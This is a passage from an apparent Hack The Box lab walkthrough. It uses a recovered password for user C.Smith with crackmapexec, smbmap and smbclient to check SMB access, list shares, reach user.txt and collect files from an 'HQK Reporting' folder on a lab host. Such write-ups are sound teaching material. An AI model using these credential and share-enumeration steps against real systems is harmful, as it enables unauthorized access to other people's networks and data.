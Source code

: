 When it runs, it prints: `xRxRxPANCAK3SxRxRx`.

SMB Access
The password does work for SMB for C.Smith, but doesn’t give admin or code exec (no (Pwn3d!) message):
```
crackmapexec smb 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\C.Smith:xRxRxPANCAK3SxRxRx 
```

C.Smith has access to the same three shares:
```
smbmap -H 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
[+] IP: 10.10.10.178:445        Name: 10.10.10.178                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        Secure$                                                 READ ONLY
        Users                                                   READ ONLY
```

I can now access the C.Smith directory in \\10.10.10.178\Users, and there’s user.txt.
```
smbclient -U C.Smith //10.10.10.178/users xRxRxPANCAK3SxRxRx
Try "help" to get a list of possible commands.
smb: \C.Smith\> dir
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       32  Thu Aug  8 19:05:24 2019
```

3,Shell as SYSTEM
Also in C.Smith’s directory in the share is the HQK Reporting folder. That matches the service I identified on port 4386 in initial recon. I’ll recurrsively pull back all the files, and there are three:
```
find HQK\ Reporting/ -type f -ls

     6603      0 -rwxrwx---   1 root     vboxsf          0 Jun  5 15:52 HQK\ Reporting/Debug\ Mode\ Password.txt
     6604      4 -rwxrwx---   1 root     vboxsf        249 Jun  5 15:52 HQK\ Reporting/HQK_Config_Backup.xml
     6602     20 -rwxrwx---   1 root     vboxsf      17408 Jun  5 15:52 HQK\ Reporting/AD\ Integration\ Module/HqkLdap.exe
```

The backup config confirms the port and the directory that the user starts in once they connect:
```
<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
```
